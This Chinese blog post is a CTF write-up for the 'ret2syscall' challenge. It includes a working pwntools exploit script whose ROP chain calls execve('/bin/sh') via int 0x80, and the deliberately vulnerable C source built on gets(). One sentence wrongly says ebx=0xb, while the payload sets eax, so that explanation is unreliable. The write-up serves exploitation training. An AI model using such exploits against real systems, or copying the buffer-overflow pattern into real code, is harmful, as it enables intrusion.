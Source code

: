 ```yaml
---
layout:     post
title:      ret2syscall
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida





## 分析过程

这里需要注意一点，ret2syscall是静态编译的

```
file ret2syscall

ret2syscall: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked
```



只开了NX堆栈不可执行保护

```
checksec ret2syscall
[*] '/home/hello/Desktop/test/ret2syscall/ret2syscall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```





## 解题思路

思路

ida打开程序，发现没有system函数，因为是静态编译又不能调用libc中的函数，考虑一下int 0x80[系统调用](https://syscalls.kernelgrok.com)

```
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
```

payload中，ebx=0xb对应系统调用表中的sys_execve，edx、ecx为0即可，ebx存/bin/sh的字符串地址



exp.py

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```



xxx.c

```c
#include <stdio.h>
#include <stdlib.h>

char *shell = "/bin/sh";

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("This time, no system() and NO SHELLCODE!!!\n");
    printf("What do you plan to do?\n");
    gets(buf);

    return 0;
}
```



## 总结



